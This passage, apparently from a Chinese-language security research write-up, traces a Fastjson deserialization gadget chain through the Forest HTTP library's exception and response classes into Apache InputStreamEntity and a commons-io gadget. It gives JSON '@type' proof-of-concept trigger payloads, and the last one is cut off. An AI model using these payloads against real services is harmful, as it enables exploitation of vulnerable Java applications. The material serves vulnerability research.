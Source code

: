 可见`InputStreamEntity`应该不错，
```java
public class InputStreamEntity extends AbstractHttpEntity {
    private final InputStream content;
    private final long length;
    
    public InputStreamEntity(final InputStream inStream) {
        this(inStream, -1);
    }
    ...
}
```
这样就串起来了

```
java.lang.Exception
        ||
        \/
com.dtflys.forest.exceptions.ForestNetworkException(String message, Integer statusCode, ForestResponse response)
                                                                                              || 这个会被反序列化
                                                                                              \/
                com.dtflys.forest.backend.httpclient.response.HttpclientForestResponse (HttpResponse、HttpEntity)
                                                                                                        ||
                                                                                                        \/
                                                                        org.apache.http.entity.InputStreamEntity(InputStream inStream)
                                                                                                                    ||
                                                                                                                    \/
                                                                                                            commons-io gadget
```


#### 构造poc
首先是第一个poc，和groovy那条链很像
```json
{
  "trigger1": {
    "@type": "java.lang.Exception",
    "@type": "com.dtflys.forest.exceptions.ForestNetworkException",
    "response":{}
  }
}
```

第二个测试用poc
```json
{
  "trigger2": {
      "@type": "com.dtflys.forest.http.ForestResponse",
      "@type": "com.dtflys.forest.backend.httpclient.response.HttpclientForestResponse",
  }
}  
```
第二个完整gadget
```json
{
  "trigger2": {
      "@type": "com.dtflys.forest.http.ForestResponse",
      "@type": "com.dtflys.forest.backend.httpclient.response.HttpclientForestResponse",
```